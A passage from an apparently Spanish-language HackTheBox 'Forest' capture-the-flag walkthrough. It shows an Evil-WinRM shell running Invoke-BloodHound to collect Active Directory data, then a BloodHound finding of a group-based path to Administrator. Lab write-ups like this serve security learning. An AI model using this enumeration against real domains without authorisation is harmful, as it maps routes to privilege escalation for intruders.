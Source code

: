 > `*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -Domain HTB.local -zipFileName forest.zip`

Una vez lanzado el script se genera un archivo zip que analizaremos con la herramienta BloodHound.

```ps
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/23/2022   8:16 AM          18870 20220923081607_BloodHound.zip
```

Me lo paso a mi máquina atacante y lo abro con BloodHound para analizarlo.

![](/assets/images/HTB/Forest-HackTheBox/BloodHound1.webp)

> El grupo EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL tiene "conexión" o ruta para llegar al usuario Administrador

Pero debemos conseguir formar parte de ese grupo

